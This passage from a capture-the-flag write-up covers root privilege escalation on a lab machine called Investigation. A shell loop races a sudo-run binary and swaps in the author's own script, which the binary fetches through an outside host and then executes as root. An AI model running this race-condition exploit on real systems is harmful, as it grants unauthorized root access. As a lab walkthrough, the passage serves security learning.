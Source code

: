 ```

smorton@investigation:~$ echo "test" > lDnxUysaQn 
-bash: lDnxUysaQn: Permission denied
smorton@investigation:~$ mv lDnxUysaQn 0xdf
smorton@investigation:~$ ls
0xdf  user.txt

```

To abuse this, I’ll create a script I want to get to run:

```

#!/bin/bash

id
echo "pwned"

```

Now I’ll get two shells on Investigation. In the first, I’ll run an infinite loop:

```

smorton@investigation:~$ while :; do if [ -f lDnxUysaQn ]; then mv -f lDnxUysaQn garbage ; cp -f 0xdf.sh lDnxUysaQn; sleep 1; rm lDnxUysaQn; fi; done

```

This checks for the existence of `lDnxUysaQn`, and if it’s there, moves it to `garbage` and copies `0xdf.sh` over it. Then it sleeps for a second and removes the file.

Now when I run `binary`, it doesn’t matter what’s in the file, but it has to exist (so that `curl` returns success and the file is executed). When I run this:

```

smorton@investigation:~$ sudo binary 10.10.14.6/race lDnxUysaQn
Running... 
uid=0(root) gid=0(root) groups=0(root)
pwned

```

It may not trigger every time, but it was most for me. Because it’s waiting for the file to appear, the timing works out that it moves it just at the right time.